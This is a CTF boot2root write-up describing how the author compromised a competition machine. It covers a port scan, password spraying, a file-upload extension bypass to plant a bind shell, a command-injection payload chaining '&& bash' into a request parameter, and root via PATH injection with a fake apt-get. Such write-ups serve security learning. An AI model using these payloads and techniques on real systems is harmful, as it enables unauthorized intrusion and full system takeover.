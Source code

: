<div style="display:block;text-align:middle"><img align="middle" src="https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3e30ac37-cb08-4ac9-89d9-73271b6ae425%2Fposter.jpg?id=c0d21156-5af6-4626-8d7d-770a731f728f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1250&userId=&cache=v2" border="0" style="width:450px;">

  
It was a boot2root CTF competition Conducted By IIT Bhubaneswar .
#### Machine IP :
```http
 191.101.3.104
```
### Nmap Scan
```sh
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 50
53/tcp   open   domain  syn-ack ttl 56
80/tcp   open   http    syn-ack ttl 59
443/tcp  open   https   syn-ack ttl 49
1075/tcp closed rdrmshc reset ttl 43
```
so i first tried visiting the port 80

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fec9f0d5e-cd44-4edc-b53a-b82fa7816b20%2F80.png?id=966259b2-8eca-45f1-a7d3-cc941d0529d2&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
 
it was a basic apache2 homepage , so i skipped
head on to port 443 , there i found this interesting page :

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F173dd7cd-91f6-4aa8-b484-12a1efd16aca%2F443.png?id=afd219ea-4d74-4281-a82d-8b96b830b22f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
this looked interesting to me so i fuzzed it & got some endpoints :

```sh
302      GET        1l        4w       23c http://191.101.3.104:443/logout => /
200      GET       29l      120w     1707c http://191.101.3.104:443/
200      GET       51l      122w     1870c http://191.101.3.104:443/maintenance
200      GET       51l      122w     1870c http://191.101.3.104:443/Maintenance
302      GET        1l        4w       23c http://191.101.3.104:443/Logout => /
200      GET       81l      143w     2641c http://191.101.3.104:443/complaints
```
  
`maintenance` & `complaints` endpoints looks very interesting so i visited both & it looked like this :

Maintenance page :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F53b66e65-c7aa-4e06-9bb8-d28f662171d3%2Fmain-login.png?id=bb7a287d-a1ac-4360-b5ee-ce62d23f9731&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1150&userId=&cache=v2)
  
maintenance page had a login portal i tried password spraying attack on it & it got cracked in seconds
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa5831c61-84af-4e34-b4c7-59ceefe2a508%2Fpassword-spraying.png?id=8186e9f8-54d0-4224-b38c-ef5fea73d8c6&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
so `admin:password1` were the creds for the login page . i successfully logged in to the maintenance page

after loggin in :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6362dc41-51e8-4491-bad3-152548143d4b%2Fmaintenance.png?id=1b2d9c4e-70e5-490a-b882-051b3e2ff9b1&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
 maintenance page had 2 buttons called `Free-up storage` & `Cleanup-cache`
  
 the request for these 2 buttons were :
  
 ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d195405-b6a2-4d24-b42e-a3ccbda91ab4%2Fmaitenance-request.png?id=f1e1d9c7-4abb-45b3-a381-9382d027d3c0&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1630&userId=&cache=v2)
  
 so it gave some idea that i can run some code execution from here
  
  Complaint Page :
  
  ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7e2dcb5c-5db2-4ff5-9a79-b09e461cedc4%2Fcomplaints.png?id=9a20ceca-d375-445a-9977-2dde2113bc77&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
when i checked the other endpoint called complaints it had file upload vulnerability
i tried uploading reverse-shell.php but i noticed its using `nodejs` so php rev shell wont work , i took my teammate Raj's help to figure out the shell   part 
so i tried with bash shell , one more thing was there that user can only upload images so i had to do extension bypass using burp :
 
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa914d3b8-0f21-415f-b121-db1e2b8a63dc%2Ffoothold.png?id=a1572433-0fab-4239-8b8a-a8c9214b1ff8&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
here i used bind shell because due to some reasons my rev shell wasnt working & used ports over 1024 as they are reserved ports & they need sudo perm in linux if u want to listen/emit on them , so basically i changed the extension from `foothold.sh.jpg` to `foothold.sh` here & it bypassed the filter & got uploaded as a sh script . the path it got uploaded to was ./images  

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9ccb93db-152d-44b5-93b3-dc212a69c8a0%2Fuploads-dir.png?id=e220c5a2-64ed-4d1b-b0b3-bffe03a98475&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1060&userId=&cache=v2)
  
so my shell got uploaded but now i need to trigger it so i went back to maintenance page where i had a param which was executing. i knew the path now so i used && with url encoded , typed bash to invoke my script `[foothold.sh](http://foothold.sh)` 

so the actual payload was :
```sh
script_to_run=Cleanup.out %26%26 bash ./images/foothold.sh %3c%3c
```

& we got shell yay :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa2b3516a-20e2-4738-92b4-fbfda34ca98f%2Ffooldhold2.png?id=cc0fdffd-dc73-4158-a82e-dcc6106b1c29&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)

## PrivEsc

we are logged in as guest user now we need to be root
so i did manual enumeration of privesc 
i found out `/home/node/webapp/scripts/cleanup.sh` is `suid` bin & later on playing with that folder i found out its leading to path injection , where `apt-get` binary is called by the cleanup.sh program which was ran by root . it gave me the idea of path Injection 

#### Path Injection to root
```sh
step 1 : echo '#!/bin/bash' > /tmp/apt-get
step 2 : echo '/bin/bash -p' >> /tmp/apt-get
step 3 : chmod +x /tmp/apt-get
step 4 : export PATH=/tmp:$PATH
step 5 : cd /home/node/webapp/scripts/
step 6 : ./Cleanup.out

Boom Rooted
```
& We got root :)

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1cb6a30-a0d2-4a77-8bbb-53bed1161483%2Froot-privesc.png?id=ffa44f9a-dcb1-4bfc-8ce6-e183fb68e5bc&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
#### P.S : Won this CTF :)
